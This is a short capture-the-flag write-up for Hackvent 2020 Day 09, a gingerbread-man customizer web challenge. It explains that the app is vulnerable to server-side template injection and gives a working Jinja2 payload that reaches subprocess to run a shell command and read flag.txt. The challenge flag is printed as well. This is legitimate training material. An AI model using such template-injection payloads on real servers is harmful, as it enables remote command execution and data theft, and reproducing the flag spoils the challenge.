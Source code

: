 ```yaml
---
layout: writeup
title: 'Day 09: Santa’s Gingerbread Factory'
level:
difficulty:
points:
categories: []
tags: []
flag: HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}
---
```

## Description

Here you can customize your absolutely fat-free gingerbread man.

Note: Start your personal instance from the RESOURCES section on top.

Besides the gingerbread men, there are other goodies there. Let's see if
you can get the goodie, which is stored in /flag.txt.

## Solution

We realise we can do a server side template injection (SSTI); this
challenge is very similar to [this previous
writeup](../PicoCTF_2018/writeup.md#web-exploitation-900-flaskcards-and-freedom)
from PicoCTF 2018.

We follow this method, and find the injection that gives us our flag:

    {{ ''.__class__.__mro__[2].__subclasses__()[258]('cat flag.txt',shell=True,stdout=-1).communicate() }}"

![](writeupfiles/dec9_solution.png)

## Flag

    HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}

